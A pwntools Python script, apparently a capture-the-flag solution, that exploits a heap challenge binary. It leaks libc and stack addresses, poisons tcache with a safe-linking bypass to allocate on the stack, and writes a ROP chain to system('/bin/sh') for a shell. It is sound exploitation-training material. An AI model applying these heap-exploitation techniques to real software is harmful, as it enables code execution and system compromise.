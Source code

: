 ```python

create(0x500, b'a\n') # 1
create(0x50, b'a') # 2
remove(1)
create(0x500, b'a'*8) #1, count = 2
p.recvuntil(b'a' *8)
libc.address = u64(p.recvline(keepends = False).ljust(8, b'\0')) - 0x219ce0
info("libc address: " + hex(libc.address))

create(0x50, b'a\n') # 3
create(0x50, b'a\n') # 4
create(0x50, b'a\n') # 5
create(0x50, b'a\n') # 5
stack = gift()
info("Stack: " + hex(stack))

payload = flat(
        stack+0xa0,
        0, 0x60,
        0, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
remove(5)
remove(6)
remove(17)
payload = flat(
        (stack+0xa0),
        0, 0x60,
        (stack + 0x100) ^ (stack + 0xa0) >> 12, 0,
        0, 0,
        0, 0,
        0, 0,
)
write(payload)
create(0x50, b'a')
rop = ROP(libc)
payload = flat(
        stack,
        rop.find_gadget(['ret']).address,
        rop.find_gadget(['pop rdi', 'ret']).address, next(libc.search(b'/bin/sh')),
        libc.sym.system
)
create(0x50, payload)
p.interactive()
```
